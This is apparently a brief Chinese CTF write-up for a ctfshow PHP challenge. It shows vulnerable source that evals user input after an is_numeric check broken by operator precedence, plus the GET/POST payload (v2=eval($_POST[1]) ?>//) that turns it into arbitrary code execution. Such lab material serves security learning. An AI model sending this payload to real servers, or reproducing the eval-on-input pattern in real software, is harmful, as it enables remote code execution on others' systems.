

# 知识点
0x2d   => '-'<br />但是php的运算具有优先级
:::tips
&& > = > and
:::
# 思路
```python
<?php

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}


?>
```
```php
GET ?v1=1&v2=eval($_POST[1]) ?>//&v3=;
POST 1=var_dump($ctfshow); 
```

